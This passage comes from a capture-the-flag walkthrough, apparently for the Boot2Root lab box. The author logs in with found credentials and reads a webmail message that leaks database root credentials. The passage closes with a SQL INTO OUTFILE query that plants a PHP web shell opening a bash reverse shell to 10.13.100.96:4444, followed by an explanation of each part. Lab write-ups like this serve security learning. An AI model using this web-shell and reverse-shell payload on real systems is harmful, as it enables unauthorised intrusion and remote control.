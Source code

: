 Then, I logged in with the username `lmezard` and the password `!q\]Ej?*5K5cy*AJ`.

![Screen Shot 2024-10-20 at 12.00.32 AM.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/6f2fde31-9543-4e4c-9330-82632d6d36e1/90d9c76c-47bd-4154-a5cd-0140efdc6fe4/Screen_Shot_2024-10-20_at_12.00.32_AM.png)

I found the email address `laurie@borntosec.net` in this form.

---

![Screen Shot 2024-10-20 at 12.03.36 AM.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/6f2fde31-9543-4e4c-9330-82632d6d36e1/db3ccddf-950b-48ff-80c2-4b71568281b5/Screen_Shot_2024-10-20_at_12.03.36_AM.png)

Now I have the email address `laurie@borntosec.net` and the password `!q\]Ej?*5K5cy*AJ`. Let's try to log in to the email box. https://10.13.100.236/webmail/

![Screen Shot 2024-10-20 at 12.08.53 AM.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/6f2fde31-9543-4e4c-9330-82632d6d36e1/9b3f1156-00f1-48dc-a756-775526a63be4/Screen_Shot_2024-10-20_at_12.08.53_AM.png)

I found an email message that contains the username and password for the database:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

---

Then, I logged into the database with the username `root` and the password `Fg-'kKXBj87E:aJ$`.

https://10.13.100.236/phpmyadmin/

![Screen Shot 2024-10-20 at 12.15.26 AM.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/6f2fde31-9543-4e4c-9330-82632d6d36e1/a1a8b105-d752-48fd-a2c2-c1d3e4bcb450/Screen_Shot_2024-10-20_at_12.15.26_AM.png)

## SQL injection

After logging into the database, I ran an SQL query (SQL injection) to create a reverse shell to  execute commands on the box:

```sql
SELECT '<?php system("bash -c \'exec bash -i &>/dev/tcp/10.13.100.96/4444 <&1\'"); ?>' INTO OUTFILE '/var/www/forum/templates_c/reverse_shell.php.php';
```

![Screen Shot 2024-10-20 at 12.33.33 AM.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/6f2fde31-9543-4e4c-9330-82632d6d36e1/a52784d6-2b04-415e-9f16-a3b3558ed586/Screen_Shot_2024-10-20_at_12.33.33_AM.png)

The SQL statement used in a SQL injection attack to create a web shell on a vulnerable server.

- **`SELECT` Statement**:
    - This part is selecting a PHP command that will create a reverse shell.
- **`'<?php system("bash -c \'exec bash -i &>/dev/tcp/10.13.100.96/4444 <&1\'"); ?>'`**:
    - This string is a PHP script that, when executed, will open a reverse shell connection back to the attacker's machine at IP `10.13.100.96` on port `4444`.
    - The `system` function in PHP is used to execute the command passed to it.
- **`INTO OUTFILE '/var/www/forum/templates_c/`**reverse_shell.php**`';`**:
    - This part writes the selected PHP script to a file named reverse_shell.php located in the specified directory on the server. This file would then be accessible via a web server, allowing the attacker to execute the PHP code
